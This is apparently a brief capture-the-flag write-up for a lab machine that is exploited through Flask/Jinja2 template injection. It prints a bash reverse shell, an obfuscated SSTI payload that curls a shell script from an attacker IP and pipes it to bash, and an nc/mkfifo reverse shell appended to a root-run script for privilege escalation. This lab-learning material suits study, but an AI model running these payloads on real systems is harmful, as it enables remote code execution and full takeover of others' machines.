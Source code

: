 # Initial

Set the URL and IP in /etc/hosts

# Reference

[This link](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)

Without refering to the above I would not be able to get reverse shell to the machine

# Reverse Shell

#!/bin/bash
bash -c "bash -i >& /dev/tcp/IP/4444 0>&1"

then host the file with `python3 -m http.server 80`

# Payload

put the below into an image file and upload to the website
`{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.10.14.243/revshell | bash")|attr("read")()}}`

# Privilege Escalation

Make use of the `ssh-alert.sh` script in /usr/local/sbin by appending this `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.243 4445 >/tmp/f` 

Then SSH to svc_acc to trigger the script and get root
